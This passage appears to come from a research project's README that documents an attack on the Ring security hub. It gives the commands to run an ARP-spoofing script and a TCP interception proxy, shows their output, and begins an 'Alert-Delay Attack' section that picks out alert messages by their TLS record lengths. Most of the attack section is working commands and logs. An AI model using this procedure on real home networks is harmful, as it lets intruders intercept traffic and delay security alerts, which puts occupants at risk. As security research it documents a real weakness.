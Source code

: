  Then, run the script with sudo privilege and leave it running.

```bash
$ sudo -E python3 spoof.py
```

The script will prompt the sending of each arp response like this

```jsx
[+] Sent to 192.168.1.23 : 192.168.1.1 is-at 00:1c:42:3a:65:dc
[+] Sent to 192.168.1.1 : 192.168.1.23 is-at 00:1c:42:3a:65:dc
[+] Sent to 192.168.1.23 : 192.168.1.1 is-at 00:1c:42:3a:65:dc
[+] Sent to 192.168.1.1 : 192.168.1.23 is-at 00:1c:42:3a:65:dc
[+] Sent to 192.168.1.23 : 192.168.1.1 is-at 00:1c:42:3a:65:dc
[+] Sent to 192.168.1.1 : 192.168.1.23 is-at 00:1c:42:3a:65:dc
[+] Sent to 192.168.1.23 : 192.168.1.1 is-at 00:1c:42:3a:65:dc
[+] Sent to 192.168.1.1 : 192.168.1.23 is-at 00:1c:42:3a:65:dc
[+] Sent to 192.168.1.23 : 192.168.1.1 is-at 00:1c:42:3a:65:dc
```

After the redirection of packets, we run our proxy program that listens to the redirection port. On receiving any TCP connection requests, it accepts them and retrieves the original destination IP address. Then, it launches a new connection to the original destination IP address (i.e., the Ring cloud). As a result, an original TCP session is broken into two independent ones. For any session between the hub and the cloud, we spawn 4 threads to handle the write and read of each TCP connection. Messages received from one side are put into a queue, which is popped and sent out by the writing thread of the other side. By checking the content in the queue, we can inspect every received message.

The proxy program is located in `<project_root>/proxy/passthrough.py`. You can run it by specifying the redirection port. By default, the port is 10000. Please make sure the port is not occupied by other programs and matches the configuration in `<project_root>/spoof/delay.conf`.

```scheme
.$ python3 proxy.py -p 10000 
# -p is used to specify the redirection port, 
# need to match the set value in 'delay.conf'
```

Then, the program will automatically prompt the length and time of received packets.

```jsx
attacker@demo:~/... .../proxy$ python3 passthrough.py 
07/08/2021 09:26:10 PM | TLS record of [28, 52] bytes to ('192.168.1.23', 46328)
07/08/2021 09:26:39 PM | TLS record of [28] bytes to ('3.238.77.118', 443)
07/08/2021 09:26:39 PM | TLS record of [48] bytes to ('3.238.77.118', 443)
07/08/2021 09:26:39 PM | TLS record of [28, 52] bytes to ('192.168.1.23', 46328)
07/08/2021 09:27:08 PM | TLS record of [28] bytes to ('3.238.77.118', 443)
07/08/2021 09:27:08 PM | TLS record of [48] bytes to ('3.238.77.118', 443)
07/08/2021 09:27:08 PM | TLS record of [28, 52] bytes to ('192.168.1.23', 46328)
```

### **Alert-Delay Attack**

Messages of the Ring security hub can be easily recognized by their lengths. The hub exchanges keep-alive messages with the cloud server in **30** seconds period. In each exchange, the hub sends two TLS records with the lengths of **28** and **48** bytes to the cloud, and the cloud reply with two records of **28** and **52** bytes. When sending events to the cloud, the hub always starts with two consecutive TLS records of 28 and 504 bytes. 
